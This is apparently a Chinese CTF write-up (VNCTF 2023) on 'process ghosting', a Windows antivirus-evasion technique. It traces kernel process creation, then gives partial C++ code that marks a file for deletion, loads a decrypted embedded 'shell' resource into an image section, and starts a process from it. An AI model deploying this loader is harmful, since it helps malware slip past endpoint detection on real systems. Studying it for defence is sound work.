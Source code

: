 ```yaml
---
author: s0rry
pubDatetime: 2023-03-08T23:50:00Z
modDatetime: 2023-03-08T23:50:00Z
title: 进程重影
slug: Process-Ghosting
featured: false
draft: false
tags:
  - windows
description: 2023VNCTF-jijiji考点，通过出题分享了一个我最近才学到的一种静态的免杀方式。
---
```


# 进程重影

VNctf2023-jijiji考点

这次通过出题分享了一个我最近才学到的一种静态的免杀方式。

## 内核下的进程创建过程

```cpp
调用CreateProcessW
   调用CreateProcessInternalW
      参数检查
      获取进程文件路径
      调用 BasepMapFile映射文件(内部调用NtCreateSection)
      判断是否是一个DLL文件
      判断子系统类型(只能是GUI和CUI中的一种)
      是GUI时，则去掉CREATE_NEW_CONSOLE标志，增加DETACHED_PROCESS
      如果dwCreationFlags参数中包含DEBUG_PROCESS|DEBUG_ONLY_THIS_PROCESS，则调用DbgUiConnectToDbg创建调试对象(debugPort)
      调用NtCreateProcess开始创建进程
         调用NtCreateProcessEx
             调用PspCreateProcess
                关联相关句柄的内核对象(SectionHandle，DebugPort，ExceptionPort)
                创建进程空间( MmCreateProcessAddressSpace)
                初始化进程内核对象(KeInitializeProcess)
                复制父进程的Token(PspInitializeProcessSecurity)
                初始化进程句柄表(ObInitProcess)
                把进程模块映射进内存(MmInitializeProcessAddressSpace-->MmMapViewOfSection)
                映射系统模块(PspMapSystemDll-->MmMapViewOfSection)
                把该内核对象加入到进程线程对象表(PspCidTable)中，并得到进程ID
                创建PEB(MmCreatePeb)
                获取进程句柄(ObInsertObject)
                权限检查(SeAccessCheck)
                执行(监控进程创建)回调函数(PspRunCreateProcessNotifyRoutines)
      设置进程优先级
      设置进程参数(BasePushProcessParameters)
      关闭由BasepMapFile函数创建的section句柄
      复制标准输入、输出、错误设备句柄
      调用BasepNotifyCsrOfCreation
      创建第一个线程BasepCreateFirstThread
      创建线程栈(BaseCreateStack)
      初始化线程环境块(BaseInitializeContext)
         设置寄存器
         eax = 入口点
         ebx = 参数
         esp = 栈底指针
         eip = BaseProcessStartThunk
      创建线程内核对象(NtCreateThread)
         调用PspCreateThread
            创建线程对象(ObCreateObject)
            得到线程ID(ExCreateHandle)
            初始化相关链表
            创建TEB(MmCreateTeb)
            设置线程的起始地址
            初始化线程对象(KeInitThread)
                第三个参数传入的是：PspUserThreadStartup
                调用KiInitializeContextThread
                    CtxSwitchFrame->RetAddr = KiThreadStartup;
      启动第一个线程NtResumeThread
```

## \***\*PsSetCreateProcessNotifyRoutineEx回调函数\*\***

微软提供的进程创建的回调函数，在进程创建和退出时调用

事实上，\***\*PsSetCreateProcessNotifyRoutineEx并不是在创建进程的瞬间就完成的，\*\***

也就是说在执行如下代码的时候\***\*PsSetCreateProcessNotifyRoutineEX设置的回调函数不会被调用\*\***

```jsx
ntAux = pfNtCreateProcess(&hProcess, PROCESS_ALL_ACCESS, nullptr, GetCurrentProcess(), TRUE, hSectionHandle, NULL, NULL);
```

而是执行了下面代码才会调用

```jsx
ntAux = pfNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)ullProcEntry, NULL, FALSE, 0, 0, 0, NULL);
```

出现了时间差，所以可以在pfNtCreateThreadEx之前对可执行文件进行修改甚至删除，伪装成普通文件。

删除方案的选择，采用正常的删除文件操作，在删除已经被映射到内存的文件时，windows会报错阻止删除。

也就是是我们要先删除文件再映射到内存，但是文件都已经被删除了怎么映射呢？

解决方法是

先创建文件，然后通过pfNtSetInformationFile把它挂到删除队列上。

```cpp
ntAux = pfNtSetInformationFile(hTargetFile, &stIOStatus, &stFileInfo, sizeof(stFileInfo), FILE_INFORMATION_CLASS::FileDispositionInformation);
```

当hTargetFile句柄被关闭的时候文件就会被删除。

## 进程重影的实现代码

vnctf2023的题目部分源码，由于直接给全部源码会很啰嗦。这里就只给了部分关键代码

```cpp
// 创建一个要挂上删除队列的临时文件
HANDLE hTargetFile = CreateFile(lpszTargetFile, GENERIC_READ | GENERIC_WRITE | DELETE, 0, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
// 把文件挂上删除队列
ntAux = pfNtSetInformationFile(hTargetFile, &stIOStatus, &stFileInfo, sizeof(stFileInfo), FILE_INFORMATION_CLASS::FileDispositionInformation);

// 搜索文件自身名字叫做shell的资源，读出来解密
HRSRC hRsrc = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELL2), "shell");
DWORD dwSize = SizeofResource(NULL, hRsrc);
HGLOBAL hGlobal = LoadResource(NULL, hRsrc);
LPVOID pBuffer = LockResource(hGlobal);
memcpy(lpSource, pBuffer, dwFileSize);
memcpy(&dwOriginalSize, (void *)((unsigned long long int)pBuffer + dwFileSize), 4);
GlobalUnlock(hGlobal);

// 将文件映射入内存
ntAux = pfNtCreateSection(&hSectionHandle, SECTION_ALL_ACCESS, NULL, 0, PAGE_READONLY, SEC_IMAGE, hTargetFile);

// 获取解密程序的入口点
GetImageEntryPointRVA(hTargetFile, imageEntryPointRva, dwOriginalSize)

// 创建进程
ntAux = pfNtCreateProcess(&hProcess, PROCESS_ALL_ACCESS, nullptr, GetCurrentProcess(), TRUE, hSectionHandle, NULL, NULL);
// 获取刚创建进程的PBI
ntAux = pfNtQueryInformationProcess(hProcess, ProcessBasicInformation, &stPBI, sizeof(stPBI), nullptr);
// 传入环境参数
ntAux = pfRtlCreateProcessParameters(&lpstProcessParams, (PUNICODE_STRING)&uTargetPath, (PUNICODE_STRING)&uDllDir, (PUNICODE_STRING)&uCurrentDir, (PUNICODE_STRING)&uTargetPath, lpEnv, (PUNICODE_STRING)&uWindowName, nullptr, nullptr, nullptr);
LPVOID lpParams = WriteParamsToProcess(hProcess, lpstProcessParams);
ReadPEB(hProcess, stPI, stPEBCopy)
WriteParamsToPEB(lpParams, hProcess, stPI)
ReadPEB(hProcess, stPI, stPEBCopy)

// 启动创建的进程里的主线程
ntAux = pfNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)ullProcEntry, NULL, FALSE, 0, 0, 0, NULL);
// 程序开始运行
```

参考链接：

[https://blog.csdn.net/xrzh8989/article/details/51058829](https://blog.csdn.net/xrzh8989/article/details/51058829)

[https://bbs.kanxue.com/thread-272798.htm](https://bbs.kanxue.com/thread-272798.htm)

[https://www.elastic.co/cn/blog/process-ghosting-a-new-executable-image-tampering-attack](https://www.elastic.co/cn/blog/process-ghosting-a-new-executable-image-tampering-attack)
